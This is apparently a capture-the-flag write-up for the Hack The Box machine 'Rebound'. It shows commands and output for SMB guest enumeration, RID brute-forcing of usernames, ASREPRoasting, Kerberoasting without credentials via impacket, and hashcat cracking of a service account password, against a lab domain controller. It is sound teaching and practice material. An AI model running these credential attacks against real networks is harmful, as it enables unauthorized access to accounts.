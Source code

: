 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Rebound

## Summary

[Rebound](https://app.hackthebox.com/machines/560) is an <mark style="color:red;">insane-rated</mark> box

## Recon

Let's start with our [ritualistic nmap scan](../../../tools/tools/port-scanners/nmap.md#nmap-flow) (Figure 1).

```bash
nmap-scan.sh 10.10.11.231
Creating directory...
Performing initial scan...
Extracting ports...
Performing an aggresive scan on open ports...
All done! See results: less scans/aggressive_scan.nmap
```

<figure><img src="../../../.gitbook/assets/rebound_nmap (1).png" alt=""><figcaption><p>Figure 1: Services listening on the Rebound machine.</p></figcaption></figure>

Let's write some things down:

* Based on services like DNS (`53`), Kerberos (`88`) and LDAP (`3268`) we are dealing with a DC.
* The FQDN is `DC01.REBOUND.HTB`.
* SMB is available (`445`).
* WinRM is also available (`5985`). &#x20;

Our plan moving forwards would be to:

1. Add the hostname (`DC01`), domain (`REBOUND.HTB`), and FQDN (`DC01.REBOUND.HTB`) to our local DNS file (`/etc/hosts`).
2. See what information we can get out of the SMB server.
3. See what information we can get out of the LDAP server.

```bash
$ grep rebound /etc/hosts
10.10.11.231    dc01 rebound.htb dc01.rebound.htb
```

## SMB

Quering the SMB server about its shares without passing any or using empty (`' '`) credentials does not work, but `guest` does the trick. There is just one non-default share (`Shared`) but its seems empty  (Figure 2).

{% code overflow="wrap" fullWidth="false" %}
```bash
# enumerating share access
nxc smb dc01 -u 'guest' -p '' --shares
# spidering the specified share
nxc smb dc01 -u 'guest' -p '' --spider Shared --regex .
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/rebound_nxc_shares.png" alt=""><figcaption><p>Figure 2: Enumerating and spidering SMB shares.</p></figcaption></figure>

Using the `--users` flag returns nothing, but we can always try brute-force RIDs (Figure 3).

<figure><img src="../../../.gitbook/assets/rebound_rid_bfa.png" alt=""><figcaption><p>Figure 3: Enumerating users using SMB.</p></figcaption></figure>

Only the last 3 lines of the above output are actual users, which is kind of odd. In addition, we can see that `fflock` has the RID of `3382` which is close to [NXC](../../../tools/tools/active-directory/netexec-cme.md)'s default max RID (`4000`). Let's increase that to see if more usernames pop up (Figure 4).

<pre class="language-bash"><code class="lang-bash"><strong>nxc smb dc01 -u 'guest' -p '' --rid-brute 10000
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/rebound_rid_bfa_10k.png" alt=""><figcaption><p>Figure 4: Enumerating users while with RID up to 10000.</p></figcaption></figure>

We get back 10 more usernames, a total of 13! Let's create a username list.

```bash
# write NXC's output into a file
nxc smb dc01 -u 'guest' -p '' --rid-brute > nxc_users
# extract the usernames
cat nxc_users | awk '{print $6}' | awk -F'\' '{print $2}' | tail -n13
ppaul
llune
fflock
jjones
mmalone
nnoon
ldap_monitor
oorend
ServiceMgmt
winrm_svc
batch_runner
tbrady
delegator$
# extract and write the last 3 lines into a file
cat nxc_users | awk '{print $6}' | awk -F'\' '{print $2}' | tail -n13 > dom_users
```

The first thing we always do when we obtain valid domain usernames is to check if any of them are vulnerable to [ASREPRoasting](../../../tl-dr/tl-dr/active-directory/attacks/asreproasting.md).

{% code overflow="wrap" %}
```bash
nxc ldap dc01 -u dom_users -p '' --asreproast asreproast.lst
SMB         10.10.11.231    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.231    445    DC01             $krb5asrep$23$jjones@REBOUND.HTB:5cd9a482dd659d184098afef05d268d4$82239f120ad02681021346c6a7b6d1f76ce6b0c0e1292206fd056a1136c52428b78d1e909944d8d633957bb76dd625afc4fcea0b48310b7b4861550c969c4392dfdfc6cbb36099b3e0fcf7e96f20011e2c36f1faf6b2b67877db5ad0a5922e984d3ea3e24cdfc33425028828007703f913a4232568cf4aff69d457443f418606f03fce800057b01bcac7f2ab8d54a9494206ac9937903b82ac9d85980db467d9d0fe373dcc6bc1ca2a72c85c4f2aa4e0e4f4b8bdfdef491c71e1f954be0288b02f12ed537234711537efa5dd1051a8aca7ec640f93f59e9fbf58179d1f0731e1ff3c1ebf859728b91776
```
{% endcode %}

It seems we get a hit! Sadly, [`hashcat`](../../../tools/tools/passwords/hashcat.md) seems not able to crack it.

```bash
hashcat -m18200 asreproast.lst /usr/share/wordlists/rockyou
```

Typically, [Kerberoasting](../../../tl-dr/tl-dr/active-directory/attacks/kerberoasting.md) needs domain credentials, but according to [new research](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/), it is possible to perform this attack with an account susceptible to ASREPRoast. In our case, we have `jjones`, so let's try it (Figure 5).

{% code overflow="wrap" %}
```bash
# cloning impacket
sudo git clone https://github.com/fortra/impacket
Cloning into 'impacket'...
remote: Enumerating objects: 23474, done.
remote: Counting objects: 100% (48/48), done.
remote: Compressing objects: 100% (38/38), done.
remote: Total 23474 (delta 19), reused 27 (delta 10), pack-reused 23426
Receiving objects: 100% (23474/23474), 9.97 MiB | 9.29 MiB/s, done.
Resolving deltas: 100% (17811/17811), done.
# kerberoasting
sudo python3 /opt/impacket/examples/GetUserSPNs.py -no-preauth jjones -usersfile dom_users -dc-host 10.10.11.231 rebound.htb/ -outputfile kerb.txt
# checking output
cat kerb.txt
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/rebound_kerberoast.png" alt=""><figcaption><p>Figure 5: Kerberoasting without domain credentials!</p></figcaption></figure>

Luckily for us, `hashcat` is able to crack `ldap_monitor`'s account password this time.

{% code overflow="wrap" %}
```bash
hashcat -m13100 kerb.txt /usr/share/wordlists/rockyou
<SNIP>

$krb5tgs$23$*ldap_monitor$REBOUND.HTB$ldap_monitor*$fde<SNIP>bee:1GR8t@$$4u

<SNIP>
```
{% endcode %}
